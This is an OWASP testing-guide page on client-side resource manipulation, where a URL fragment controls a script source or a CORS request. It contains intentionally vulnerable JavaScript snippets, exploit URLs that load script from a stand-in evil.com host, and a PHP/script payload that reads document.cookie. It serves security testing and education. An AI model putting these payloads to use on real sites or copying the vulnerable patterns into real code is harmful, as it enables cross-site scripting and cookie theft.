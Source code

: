 # Testing for Client Side Resource Manipulation (OTG-CLIENT-006)


### Summary
A ClientSide Resource Manipulation vulnerability is an input validation flaw that occurs when an application accepts an user controlled input which specifies the path of a resource (for example the source of an iframe, js, applet or the handler of an XMLHttpRequest). Specifically, such a vulnerability consists in the ability to control the URLs which link to some resources present in a web page. The impact may vary on the basis of the type of the element whose URL is controlled by the attacker, and it is usually adopted to conduct Cross-Site Scripting attacks.


### How to Test
Such a vulnerability occurs when the application employs user controlled URLs for referencing external/internal resources. In these circumstances it is possible to interfere with the expected application's behavior in the sense of making it load and render malicious objects.


The following JavaScript code shows a possible vulnerable script in which the attacker is able to control the "location.hash" (source) which reaches the attribute "src" of a script element. This particular obviously leads XSS since an external JavaScript could be easily injected in the trusted web site.

```
<script>
  var d=document.createElement("script");
  if(location.hash.slice(1))
     d.src = location.hash.slice(1);
  document.body.appendChild(d);
</script>
```


Specifically the attacker could target the victim by asking her to visit the following URL:
```
 www.victim.com/#http://evil.com/js.js
```

Where js.js contains:

```
alert(document.cookie)
```


Controlling scripts' sources is a basic example, since some other interesting and more subtle cases can take place. A widespread scenario involves the possibility to control the URL called in a CORS request; since CORS allows the target resource to be accessible by the requesting domain through a header based approach, then the attacker may ask the target page to load malicious content loaded on its own web site.


Refer to the following vulnerable code:

```
<b id="p"></b>
<script>
 function createCORSRequest(method, url) {
  var xhr = new XMLHttpRequest();
  xhr.open(method, url, true);
  xhr.onreadystatechange = function () {
   if (this.status == 200 && this.readyState == 4) {
     document.getElementById('p').innerHTML = this.responseText;
   }
  };
  return xhr;
 }

 var xhr = createCORSRequest('GET', location.hash.slice(1));
 xhr.send(null);
</script>
```


The “location.hash” is controlled by the attacker and it is used for requesting an external resource, which will be reflected through the construct “innerHTML”. Basically the attacker could ask the victim to visit the following URL and at the same time he could craft the payload handler.


Exploit URL:
```
 www.victim.com/#http://evil.com/html.html
```
```
http://evil.com/html.html
----
<?php
header('Access-Control-Allow-Origin: http://www.victim.com');
?>
<script>alert(document.cookie);</script>
```


#### Black Box testing
Black box testing for  Client Side Resource Manipulation is not usually performed since access to the source code is always available as it needs to be sent to the client to be executed.


#### Gray Box testing
**Testing for Client Side Resource Manipulation vulnerabilities:**<br>
To manually check for this type of vulnerability we have to identify whether the application employs inputs without correctly validating them; these are under the control of the user which could be able to specify the url of some resources. Since there are many resources that could be included into the application (for example images, video, object, css, frames etc.),  client side scripts which handle the associated URLs should be investigated for potential issues.


The following table shows the possible injection points (sink) that should be checked:

| Resource Type | Tag/Method                     | Sink |
|---------------|--------------------------------|------|
| Frame         | iframe                         | src  |
| Link          | a                              | href |
| AJAX Request  | xhr.open(method, [url], true); | URL  |
| CSS           | link                           | href |
| Image         | img                            | src  |
| Object        | object                         | data |
| Script        | script                         | src  |


The most interesting ones are those that allow to an attacker to include client side code (for example JavaScript) since it could lead to an XSS vulnerabilities. <br />


When trying to check for this kind of issues, consider that some characters are treated differently by different browsers.
Moreover always consider the possibility to try absolute URLs variants as described here: http://kotowicz.net/absolute/

###Tools

* DOMinator - https://dominator.mindedsecurity.com/

### References
**OWASP Resources**
* [DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* DOMXSS.com - http://www.domxss.com
* DOMXSS TestCase - http://www.domxss.com/domxss/01_Basics/04_script_src.html


**Whitepapers**

* DOM XSS Wiki - https://code.google.com/p/domxsswiki/wiki/LocationSources
* Krzysztof Kotowicz: "Local or External? Weird URL formats on the loose" - http://kotowicz.net/absolute/
